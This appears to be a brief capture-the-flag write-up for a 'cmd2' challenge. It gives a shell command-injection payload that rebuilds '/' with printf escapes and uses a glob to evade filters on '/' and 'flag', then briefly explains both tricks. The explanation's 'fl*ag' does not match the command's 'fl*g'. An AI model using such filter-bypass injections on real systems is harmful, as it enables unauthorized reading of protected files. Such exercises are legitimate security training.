 # Solution:
```./cmd2 '$(printf "%b" "\57")bin$(printf "%b" "\57")cat fl*g'```

# Explanation:
* $(printf "%b" "\57") is replaced with "/" (in order to bypass "/" filter)
* fl*ag is replaced with flag (in order to bypass "flag" filter)

